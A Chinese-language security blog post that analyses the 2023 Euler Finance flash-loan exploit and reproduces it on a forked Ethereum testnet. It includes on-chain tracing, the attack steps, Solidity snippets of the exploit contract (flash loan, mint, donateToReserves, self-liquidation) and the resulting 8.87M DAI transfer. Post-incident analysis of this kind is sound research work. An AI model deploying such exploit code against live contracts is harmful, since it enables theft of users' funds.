

# 奇安信攻防社区-Euler Finance闪电贷攻击分析复现

### Euler Finance闪电贷攻击分析复现

Euler Finance闪电贷攻击分析复现

# Euler Finance 闪电贷漏洞分析及复现

### 消息来源：

[X 上的 PeckShield Inc.：“1/ @eulerfinance was exploited in a flurry of txs on Ethereum (one hack tx: https://t.co/L7ddZhHNq5), leading to the lost of ~$197m from the project.” / X (twitter.com)](https://twitter.com/peckshield/status/1635229594596036608)

被攻击者：[Euler Labs?️?? (@eulerfinance) / X (twitter.com)](https://twitter.com/eulerfinance)

### 攻击地址：

tx:0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d

[https://etherscan.io/tx/0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d](https://etherscan.io/tx/0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d)

### 合约代码：

[Euler: Token | Address 0x27182842E098f60e3D576794A5bFFb0777E025d3 | Etherscan](https://etherscan.io/address/0x27182842E098f60e3D576794A5bFFb0777E025d3#code)

ABI：

[api.etherscan.io/api?module=contract&action=getabi&address=0x27182842E098f60e3D576794A5bFFb0777E025d3&format=raw](http://api.etherscan.io/api?module=contract&action=getabi&address=0x27182842E098f60e3D576794A5bFFb0777E025d3&format=raw)

## 链上数据分析：

[0xc310a0affe2169d1f6 | Phalcon Explorer](https://explorer.phalcon.xyz/tx/eth/0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d)

[](https://oosec.cn/2023/11/12/EulerFinance%E9%97%AA%E7%94%B5%E8%B4%B7%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90%E5%A4%8D%E7%8E%B0/0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d.png)

更加详细：

[eth-0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d | MetaSleuth](https://metasleuth.io/result/eth/0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d)

[Transaction Tracer (openchain.xyz)](https://openchain.xyz/trace/ethereum/0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d)

| Address | Change In Value |
| --- | --- |
| [0xA0b3ee897f233F385E5D61086c32685257d4f12b](https://etherscan.io/address/0xA0b3ee897f233F385E5D61086c32685257d4f12b) | 277,068,339.8872 U |
| [0xeBC29199C817Dc47BA12E3F86102564D640CBf99](https://etherscan.io/address/0xeBC29199C817Dc47BA12E3F86102564D640CBf99) | 8,779,854.7674 USD |
| \[\[Aave: aDAI Token V2\]\]([https://etherscan.io/address/0x028171bCA77440897B824Ca71D1c56caC55b68A3](https://etherscan.io/address/0x028171bCA77440897B824Ca71D1c56caC55b68A3)) | 26,703.0000 USD |
| [0x464C71f6c2F760DdA6093dCB91C24c39e5d6e18c](https://etherscan.io/address/0x464C71f6c2F760DdA6093dCB91C24c39e5d6e18c) | 0.0366 USD |
| [0x583c21631c48D442B5C0E605d624f54A0B366c72](https://etherscan.io/address/0x583c21631c48D442B5C0E605d624f54A0B366c72) | 0.0000 USD |
| \[\[Euler\]\]([https://etherscan.io/address/0x27182842E098f60e3D576794A5bFFb0777E025d3](https://etherscan.io/address/0x27182842E098f60e3D576794A5bFFb0777E025d3)) | \-8,806,557.7674 USD |
| [0x0000000000000000000000000000000000000000](https://etherscan.io/address/0x0000000000000000000000000000000000000000) | \-277,068,339.9238 USD |

捐赠导致转换率不正确

[](https://oosec.cn/2023/11/12/EulerFinance%E9%97%AA%E7%94%B5%E8%B4%B7%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90%E5%A4%8D%E7%8E%B0/image-20231112173240818.png)

Tracer有点卡 经常出现程序错误……

利用[tenderly](https://dashboard.tenderly.co/)去分析

[0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d | Tenderly](https://dashboard.tenderly.co/tx/mainnet/0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d)

主要是清算逻辑不正确

[](https://oosec.cn/2023/11/12/EulerFinance%E9%97%AA%E7%94%B5%E8%B4%B7%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90%E5%A4%8D%E7%8E%B0/image-20231112173905696.png)

根据[Ethereum Transaction Hash (Txhash) Details | Etherscan](https://etherscan.io/tx/0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d) 中ERC-20 Tokens Transferred ：all Transfers来看

黑客的主要攻击过程：

```js
1.通过AaveV2的闪电贷借贷3000万DAI  
2.创建两个帐户0x583c作为借款人，0xa0b3作为清算人  
3.向借款人转账3000万DAI  
4.借款人存款2000万DAI，铸币1.95亿DAI/ 2亿DAI。  
5.借款人偿还10M DAI, dDAI余额减少10M。  
6.借款人再次发行1.95M eDAI/ 200M dDAI  
7.借款人捐赠100M eDAI以使头寸可变现并扭曲转化率  
8.清算人清算借款人，获得310M eDAI  
9.从eDAI撤回38.9M DAI。  
10.偿还闪贷，盈利880万
```

0x583c : [Euler Pool: Dai Stablecoin (eDAI) Token Tracker | Etherscan](https://etherscan.io/token/0xe025e3ca2be02316033184551d4d3aa22024d9dc?a=0x583c21631c48d442b5c0e605d624f54a0b366c72)

黑客的主要攻击路径

[](https://oosec.cn/2023/11/12/EulerFinance%E9%97%AA%E7%94%B5%E8%B4%B7%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90%E5%A4%8D%E7%8E%B0/image-20231112174618122.png)

(图片来自PeckShield) 当然自己也可以根据[eth-0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d | MetaSleuth](https://metasleuth.io/result/eth/0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d)分析

## 漏洞复现：

黑客闪电贷exp:[Tutorials/EulerHack.sol at main · BuildBearLabs/Tutorials (github.com)](https://github.com/BuildBearLabs/Tutorials/blob/main/EulerHack.sol)

### 黑客exp分析

1.通过Aave的闪电贷借入3000万DAI。这可以通过使用以下合约来完成，其中 excuteHack 用于请求闪电贷，excuteOperation 由 Aave 的闪电贷合约调用。

```js
contract Main {  
    DAI dai=DAI(0x6B175474E89094C44Da98b954EedeAC495271d0F);  //DAI合约  
    Euler euler=Euler(0x27182842E098f60e3D576794A5bFFb0777E025d3);  //Euler合约  
    AAVE aave=AAVE(0x7d2768dE32b0b80b7a3454c06BdAc94A69DDc7A9); //AAVE合约  
    address owner;   
    address\[\] tokens;  
    uint256\[\] nums1;  
    uint256\[\] nums2;  
    function excuteHack() public{  
        tokens.push(address(dai));  
        nums1.push(30000000000000000000000000);  
        nums2.push(0);  
        aave.flashLoan(address(this),tokens,nums1,nums2,address(this),hex"",0);  
    }  
    constructor(){  
      owner =msg.sender;  
    }  
    function executeOperation(  
        address\[\] calldata assets,  
        uint256\[\] calldata amounts,  
        uint256\[\] calldata premiums,  
        address initiator,  
        bytes calldata params  
    ) external returns (bool){  
        dai.approve(address(aave),type(uint256).max);  
        return true;  
    }
```

2.部署了一个智能合约，并向其转移了 2000 万个 DAI。在 executeOperation 函数中添加此操作

```js
function executeOperation(  
    address\[\] calldata assets,  
    uint256\[\] calldata amounts,  
    uint256\[\] calldata premiums,  
    address initiator,  
    bytes calldata params  
) external returns (bool){  
    LendContract lendcontract=new LendContract(address(this));  
    dai.approve(address(aave),type(uint256).max);  
    dai.transfer(address(lendcontract),nums1\[0\]);  
    lendcontract.exp();  
    return true;  
}
```

3.使用智能合约存入 2000 万 DAI，铸造 1.95 亿 eDAI / 2 亿 dDAI。借款人在偿还1000万DAI后，铸造了1.95亿eDAI/2亿dDAI，并捐赠了1亿eDAI，使头寸可变现并改变了兑换率，还在功能中加入了变现智能合约部署脚本。

```js
function exp() public{  
    liquidationContract liquidation\_C=new liquidationContract(address(this),mainContractAddress);  
      dai.balanceOf(address(this));  
    dai.approve(address(euler),type(uint256).max);  
    edai.deposit(0,20000000000000000000000000);  
    edai.mint(0,200000000000000000000000000);  
    ddai.repay(0,10000000000000000000000000);  
    edai.mint(0,200000000000000000000000000);  
    edai.donateToReserves(0,100000000000000000000000000);  
    liquidation\_C.exp();  
}
```

4.然后调用清算功能，启动清算过程，获得 3.1 亿 dDAI 和 2.5 亿 eDAI。最后，攻击者调用了提现功能，获得了3890万DAI，用于偿还通过闪电贷借入的3000万DAI。他们获利887万。

```js
function exp() public{  
    PROXY.LiquidationOpportunity memory s=PROXY.LiquidationOpportunity({  
    repay:0,  
    yield:0,  
    healthScore:0,  
    baseDiscount:0,  
    discount:0,  
    conversionRate:0  
    });  
    s=proxy.checkLiquidation(address(this),lendcontractAddress,address(dai),address(dai));  
    proxy.liquidate(lendcontractAddress,address(dai),address(dai),s.repay,250000000000000000000000000);  
    edai.withdraw(0,38900000000000000000000000);  
    dai.transfer(address(MainAddress),38900000000000000000000000);  
}
```

### 攻击过程复现

#### 分叉主网模拟

可以在本地模拟测试：[Fork ? the F*ing Ethereum Blockchain! Transfer tokens from Vitalik’s Account ;) | by Pari Tomar | BuildBear Labs | Medium — 分叉 ? F*ing 以太坊区块链！从 Vitalik 的账户转移代币;) |由 Pari Tomar |BuildBear 实验室 |中等](https://medium.com/buildbear/fork-the-f-ing-ethereum-blockchain-transfer-tokens-from-vitaliks-account-46d408f7356c)

本次通过BuildBeer来进行

我们可以通过[Home - BuildBear](https://home.buildbear.io/) 来创建一个从 16817993 分叉以太坊来创建一个私有测试网

[](https://oosec.cn/2023/11/12/EulerFinance%E9%97%AA%E7%94%B5%E8%B4%B7%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90%E5%A4%8D%E7%8E%B0/image-20231112182039302.png)

然后通过水龙头获取BB 比如我的水龙头[Faucet - BuildBear](https://faucet.buildbear.io/raspy-sebulba-83393420) 我用1w个BB

#### 部署攻击合约并执行

代码：[https://github.com/BuildBearLabs/Tutorials/blob/main/EulerHack.sol](https://github.com/BuildBearLabs/Tutorials/blob/main/EulerHack.sol)

在Remix编译并且部署

我的ABI为：

```js
\[  
    {  
        "inputs": \[\],  
        "stateMutability": "nonpayable",  
        "type": "constructor"  
    },  
    {  
        "inputs": \[\],  
        "name": "excuteHack",  
        "outputs": \[\],  
        "stateMutability": "nonpayable",  
        "type": "function"  
    },  
    {  
        "inputs": \[  
            {  
                "internalType": "address\[\]",  
                "name": "assets",  
                "type": "address\[\]"  
            },  
            {  
                "internalType": "uint256\[\]",  
                "name": "amounts",  
                "type": "uint256\[\]"  
            },  
            {  
                "internalType": "uint256\[\]",  
                "name": "premiums",  
                "type": "uint256\[\]"  
            },  
            {  
                "internalType": "address",  
                "name": "initiator",  
                "type": "address"  
            },  
            {  
                "internalType": "bytes",  
                "name": "params",  
                "type": "bytes"  
            }  
        \],  
        "name": "executeOperation",  
        "outputs": \[  
            {  
                "internalType": "bool",  
                "name": "",  
                "type": "bool"  
            }  
        \],  
        "stateMutability": "nonpayable",  
        "type": "function"  
    },  
    {  
        "inputs": \[\],  
        "name": "getdai",  
        "outputs": \[\],  
        "stateMutability": "nonpayable",  
        "type": "function"  
    }  
\]
```

我的Deployed contract为：0x7D503BFB8c5D3645145093A2df82aB66a0fCEce9

[https://explorer.buildbear.io/raspy-sebulba-83393420/address/0x7D503BFB8c5D3645145093A2df82aB66a0fCEce9](https://explorer.buildbear.io/raspy-sebulba-83393420/address/0x7D503BFB8c5D3645145093A2df82aB66a0fCEce9)

并在Contract中粘贴保存ABI

[](https://oosec.cn/2023/11/12/EulerFinance%E9%97%AA%E7%94%B5%E8%B4%B7%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90%E5%A4%8D%E7%8E%B0/image-20231112184250681.png)

去写入excuteHack 函数以执行 hack （需要一定时间）

完成

[https://explorer.buildbear.io/raspy-sebulba-83393420/tx/0xb2265424ab09523af2ea083af6479b954ddcbd61311f1221770f9082b9b3ea9d](https://explorer.buildbear.io/raspy-sebulba-83393420/tx/0xb2265424ab09523af2ea083af6479b954ddcbd61311f1221770f9082b9b3ea9d)

[](https://oosec.cn/2023/11/12/EulerFinance%E9%97%AA%E7%94%B5%E8%B4%B7%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90%E5%A4%8D%E7%8E%B0/image-20231112184516764.png)

最后调用 getdai()函数并将合约中剩余的 DAI 转移到我们的地址

[https://explorer.buildbear.io/raspy-sebulba-83393420/tx/0x7133db82d0215a7a14cde775d5b5268c65de0c1de58dc6a86ac5c21194b1503f](https://explorer.buildbear.io/raspy-sebulba-83393420/tx/0x7133db82d0215a7a14cde775d5b5268c65de0c1de58dc6a86ac5c21194b1503f)

[](https://oosec.cn/2023/11/12/EulerFinance%E9%97%AA%E7%94%B5%E8%B4%B7%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90%E5%A4%8D%E7%8E%B0/image-20231112184614457.png)

```js
Token Transfered:  
From:  
0x7D503BFB8c5D3645145093A2df82aB66a0fCEce9  
To:  
0x0Be90bEEE4D5DCD0F21320E68335c20b06ADBcFa  
Amount:  
8873000.0 DAI
```

我们可以看到我们获得了880 万 DAI

DAI合约地址：0x6B175474E89094C44Da98b954EedeAC495271d0F

[](https://oosec.cn/2023/11/12/EulerFinance%E9%97%AA%E7%94%B5%E8%B4%B7%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90%E5%A4%8D%E7%8E%B0/image-20231112184821465.png)

整个过程分析模拟完毕。  
2023-11-12 S7iter

参考：

> [X 上的 PeckShield Inc.：“4/ Two hackers were involved in the attack: 0x5F2…8B8c and 0xBcA…7c5C. And here comes the flow of stolen funds https://t.co/6jTBlfSNgJ” / X (twitter.com)](https://twitter.com/peckshield/status/1635234070727913473/photo/1)
> 
> [Euler Finance’s 196 Million Flash Loan Exploit | Learn how to re-do the hack (buildbear.io)](https://www.buildbear.io/resources/guides-and-tutorials/Euler_Finances_196_Million_Flash_Loan_Exploit)
> 
> [Euler Finance hacked for over $195M in a flash loan attack (cointelegraph.com)](https://cointelegraph.com/news/euler-finance-hacked-for-over-195m-in-a-flash-loan-attack)
